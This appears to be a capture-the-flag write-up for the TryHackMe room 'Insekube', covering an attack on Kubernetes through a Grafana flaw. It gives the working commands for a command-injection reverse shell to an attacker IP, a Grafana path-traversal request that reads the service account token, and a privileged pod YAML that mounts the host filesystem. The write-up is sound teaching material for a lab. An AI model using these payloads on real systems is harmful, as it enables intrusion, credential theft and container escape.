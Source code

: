 <a href="https://tryhackme.com/room/insekube"> Insekube </a>
Exploiting Kubernetes by leveraging a Grafana LFI vulnerability

Task 1

nmap -p- -Pn -sC -sT -A --reason -o nmap.scan [Target IP]
This will give us answer rot the first question.

Task 2
On website we can perform a command injection attack by typing various command like ;whoami ;id ;ls
Author tells us that flag is in Envrometal variable so lets  type ;printenv
![image](https://user-images.githubusercontent.com/58551072/155545434-44c7d8b8-2811-4078-916e-8660a5ce6b6e.png)
We have to establish reverse shell with target machine in order to complete further task
There is no netcat or python avaliable on machine for us to use. 
We have to use Command injection attack again
127.0.0.1 && bash &>/dev/tcp/[Attacker IP]/[PORT] <&1

Task 3
No answer needed

Task 4
We have access to the machine. All we need to do is follow instructions. 
Flag is there, you can analyse it with online tools

Task 5
Running env you will see there is a Grafana service running in the cluster.
We need to find what version of Grafana is used and search for vulnerabilities
Still in console that is connected to the target machine
curl http://grafana:3000/login/ - Text is long but it is easy to find ;)

 

Task 6
I had trouble with running exploit but when googling around I have found solution
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
Now we have token
To get service account name we can use option "get serviceaccount" and token that we have found
To get next two answers all we need to do is fllow instruction. Flag 3 is in same place as flag 1

Task 7
First we need to prepare .yaml file

apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
 
To get file into TARGET machine lets start ftp server on our machine
then simply curl http://ATTACKER IP:PORT/file.yaml
to get last flag use find / -type f -name root.txt
   

